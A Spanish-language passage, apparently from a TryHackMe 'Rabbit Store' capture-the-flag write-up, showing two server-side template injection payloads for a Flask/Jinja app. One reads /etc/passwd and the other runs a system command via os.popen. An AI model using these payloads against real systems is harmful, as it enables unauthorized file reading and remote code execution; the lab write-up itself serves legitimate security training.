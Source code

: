 El siguiente *payload* nos permitirá leer ficheros internos, logramos enumerar el fichero passwd, este incluye usuarios relevantes como *Azrael* y *rabbitmq*:
```json
{
  "username":"{{ request.__class__._load_form_data.__globals__.__builtins__.open('/etc/passwd').read() }}"
}
```
![](../assets/img/Rabbit_store-tryhackme-writeup/20.png)

A continuación, utilizamos el siguiente código para lograr ejecutar código remoto:
```json
{
  "username":"{{ config.__class__.from_envvar.__globals__.import_string('os').popen('id').read() }}"
}
```
![](../assets/img/Rabbit_store-tryhackme-writeup/21.png)